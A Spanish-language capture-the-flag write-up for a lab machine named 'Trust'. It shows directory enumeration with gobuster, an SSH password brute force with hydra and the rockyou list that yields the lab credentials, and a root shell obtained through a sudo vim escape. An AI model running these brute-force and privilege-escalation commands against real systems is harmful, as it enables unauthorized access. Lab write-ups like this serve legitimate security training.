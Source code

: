 # WriteUp Maquina Trust

Primero haremos un Ping a la IP para verificar que haya conexion

Escaneo de Puertos
Iniciamos con un escaneo básico de puertos y encontramos los siguientes servicios abiertos:

![image](https://github.com/user-attachments/assets/3f91c7d4-234b-4e49-a9d8-9fcaf6f60ebf)

Enumeración de Directorios
Utilizamos gobuster para enumerar directorios en el puerto 80:

gobuster dir -u http://172.18.0.2/ -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-big.txt -t 20 -x html,php,txt,php.bak

![image](https://github.com/user-attachments/assets/2361a103-d894-4f12-b8cf-09f2ff44cc11)

Resultado
Encontramos un archivo interesante:

/secret.php
Accedemos a " http://172.18.0.2/secret.php ", pero solo encontramos un mensaje que dice "HOLA MARIO". Sin más información útil, decidimos explorar otras opciones.

![image](https://github.com/user-attachments/assets/2f3034b3-d3b6-4340-9b76-267ee5e5a933)

Fuerza Bruta en SSH
Dado que encontramos un usuario potencial ("mario") en /secret.php, procedemos a un ataque de fuerza bruta en el puerto 22 (SSH) para descubrir la contraseña:

hydra  -l mario -P /home/kali/Downloads/rockyou.txt ssh://172.18.0.2

Credenciales encontradas:
Usuario: mario
Contraseña: chocolate

Acceso al Sistema
Usamos las credenciales obtenidas para iniciar sesión por SSH:
ssh mario@172.18.0.2

Escalada de Privilegios
Al verificar los privilegios de sudo con sudo -l, observamos lo siguiente:

![image](https://github.com/user-attachments/assets/dacc3017-5890-4356-ab6a-bc0bed7de500)

Esto indica que podemos usar vim como root. Para explotar este permiso, consultamos GTFOBins.

Comando para obtener acceso root:
sudo vim -c ':!/bin/sh'

Al ejecutar este comando, logramos escalar privilegios y obtener acceso root.

![image](https://github.com/user-attachments/assets/299a427e-5260-4673-9734-7f0c61668cef)


¡Y eso es todo, ya somos root!






